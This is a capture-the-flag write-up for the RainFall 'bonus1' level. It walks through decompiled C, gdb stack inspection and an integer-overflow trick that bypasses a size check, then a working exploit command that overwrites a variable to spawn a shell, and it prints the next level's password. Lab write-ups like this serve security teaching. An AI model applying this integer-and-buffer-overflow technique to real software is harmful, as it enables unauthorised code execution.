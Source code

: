 ## Step 1: Static & Dynamic Analysis

```c
08048424    int32_t main(int32_t argc, char** argv, char** envp)
08048424    {
08048424        int32_t n = atoi(argv[1]);
08048424        
08048446        if (n > 9)
08048473            return 1;
08048473        
08048473        void buffer;
08048473        memcpy(&buffer, argv[2], n << 2);
08048473        
08048480        if (n == 1464814662)
08048499            execl("/bin/sh", "sh", 0);
08048499        
0804849e        return 0;
08048424    }
```

### Explanation
The program begins by converting the first argument into an integer (`n`) using `atoi()` and then checks if `n > 9`. If this condition is true, the program return.

Next, a buffer is created, and `memcpy()` copies data from the second argument (`argv[2]`) into this buffer. The size of the copied data is determined by `n << 2`, multiplying `n` by 4. The maximum value for `n` is 9, which results in `9 << 2` = `36 bytes` being copied.

Finally, the program checks if `n == 1464814662`. If this condition is met, the program executes `/bin/sh`. This behavior presents a potential vulnerability if we can bypass the initial `n > 9` check and manipulate the value of `n`.

```
(gdb) run 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) Y

Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048478 in main ()
(gdb) x/76wx $esp                                                                              
0xbffffbb0:     0xbffffbc4      0xbffffdcd      0x00000024      0x080482fd
0xbffffbc0:     0xb7fd13e4      0x41414141      0x41414141      0x41414141
0xbffffbd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffbe0:     0x41414141      0x41414141      0x080484b9      0x00000009
0xbffffbf0:     0x080484b0      0x00000000      0x00000000      0xb7e454d3
0xbffffc00:     0x00000003      0xbffffc94      0xbffffca4      0xb7fdc858
0xbffffc10:     0x00000000      0xbffffc1c      0xbffffca4      0x00000000
```

As observed, the stack first stores `36 'A' bytes`, followed by `4 random bytes`, and then the value of `n` (in this example, `0x00000009`). This indicates that the original buffer size is `40 bytes`.

Using this information, the objective is to provide a negative value as the first parameter. This value will become a positive number when `n << 2` is executed, bypassing the `n > 9` check and triggering a `buffer overflow`. This overflow allows overwriting the value of `n` with `1464814662` (`0x574f4c46`).

The first step is to determine a specific negative number that, after the bitwise left shift, results in `44`.

```python
>>> "{:032b}".format((44 >> 2 | (1 << 31)) & 0xFFFFFFFF)
'10000000000000000000000000001011'

>>> (0b10000000000000000000000000001011 << 2) & 0xFFFFFFFF
44

>>> 0b10000000000000000000000000001011 - (1 << 32)
-2147483637
```

## Step 2: Exploiting the Binary

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print(("A" * 40) + "\x57\x4f\x4c\x46"[::-1])')

% cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```